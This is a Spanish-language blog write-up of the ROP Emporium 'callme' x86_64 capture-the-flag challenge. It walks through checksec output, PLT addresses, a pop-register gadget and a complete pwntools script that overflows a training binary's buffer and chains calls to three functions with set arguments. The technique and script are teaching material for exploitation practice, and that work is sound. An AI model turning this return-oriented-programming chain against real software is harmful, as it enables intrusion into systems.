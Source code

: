 ```yaml
---
layout: post
title: Callme ROP Emporium (x86_64)
comments: true
categories: [Pwn, Writeups, ROPEmporium]
---
```


Este es el segundo post de la serie de writeups de [ROP Emporium](https://ropemporium.com/challenge/split.html). Con esta serie de posts aprenderemos sobre una de las técnicas más utilizadas en la explotación de binarios, la [***ROP***]({% post_url 2024-08-15-ROP %}), ó *Return Orineted Programming* (Programación orientada a *return*).

Concretamente en este reto, utilizaremos *ROP gadgets* para llamar a varias funciones pasándoles argumentos.

# x86_64 (Intended)
## Reconocimiento

Como siempre comenzamos lanzando [[checksec]]:

```checksec
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'
```

Vemos que la ejecución es igual que el [ejercicio anterior]({% post_url 2024-08-15-Split-ROP-Emporium %}). Así que analizaremos directamente las funciones con gdb-pwndbg:

```gdb
0x00000000004006a8  _init
0x00000000004006d0  puts@plt
0x00000000004006e0  printf@plt
0x00000000004006f0  callme_three@plt
0x0000000000400700  memset@plt
0x0000000000400710  read@plt
0x0000000000400720  callme_one@plt
0x0000000000400730  setvbuf@plt
0x0000000000400740  callme_two@plt
0x0000000000400750  exit@plt
0x0000000000400760  _start
0x0000000000400790  _dl_relocate_static_pie
0x00000000004007a0  deregister_tm_clones
0x00000000004007d0  register_tm_clones
0x0000000000400810  __do_global_dtors_aux
0x0000000000400840  frame_dummy
0x0000000000400847  main
0x0000000000400898  pwnme
0x00000000004008f2  usefulFunction
0x000000000040093c  usefulGadgets
0x0000000000400940  __libc_csu_init
0x00000000004009b0  __libc_csu_fini
0x00000000004009b4  _fini
```

En el enunciado se nos dice:

> You must call the `callme_one()`, `callme_two()` and `callme_three()` functions in that order, each with the arguments `0xdeadbeef`,  `0xcafebabe`, `0xd00df00d` e.g. `callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)` to print the flag. **For the x86_64 binary** double up those values, e.g. `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`.
> The solution here is simple enough, use your knowledge about what resides in the PLT to call the `callme_` functions in the above order and with the correct arguments. If you're taking on the MIPS version of this challenge, don't forget about the branch delay slot.
> _Don't get distracted by the incorrect calls to these functions made in the binary, they're there to ensure these functions get linked. You can also ignore the .dat files and encrypted flag in this challenge, they're there to ensure the functions must be called in the correct order._

En resumen, deberemos llamar a las funciones *callme_* en el orden correcto, pasando los argumentos correctos.

En *usefulGadgets* se nos dan los gadgets necesarios para colocar los argumentos:

```asm
disass usefulGadgets

Dump of assembler code for function usefulGadgets:
0x000000000040093c <+0>:	pop    rdi
0x000000000040093d <+1>:	pop    rsi
0x000000000040093e <+2>:	pop    rdx
0x000000000040093f <+3>:	ret
```

También tenemos las direcciones de las funciones a llamar que tienen la peculiaridad de, al ser *dynamically linked*, encontrarse en la PLT.

## Explotación

El script llamará por cada función, a los gadgets, seguidos de los parámetros (almacenados en *rdi*, *rsi* y *rdx*) y por último, a la propia función. Así quedaría:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

# Set up pwntools for the correct architecture
context.bits=64
exe = './callme'


def start():
    
    if args.REMOTE:
        return remote()
    else:
        return process(exe)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

padding=40*b'A' #Same as split (previous challenge)

callme_1=p64(0x0000000000400720)
callme_2=p64(0x0000000000400740)
callme_3=p64(0x00000000004006f0)

pop_3_ret=p64(0x000000000040093c)

deadbeef=p64(0xdeadbeefdeadbeef)
cafebabe=p64(0xcafebabecafebabe)
doodfood=p64(0xd00df00dd00df00d)

args = deadbeef + cafebabe + doodfood

payload = padding + pop_3_ret + args + callme_1
payload += pop_3_ret + args + callme_2
payload += pop_3_ret + args + callme_3

io.sendline(payload)
io.interactive()
```

Un reto también sencillo pero que refresca y afianza conceptos para los siguientes. ¡Nos vemos en el próximo post!
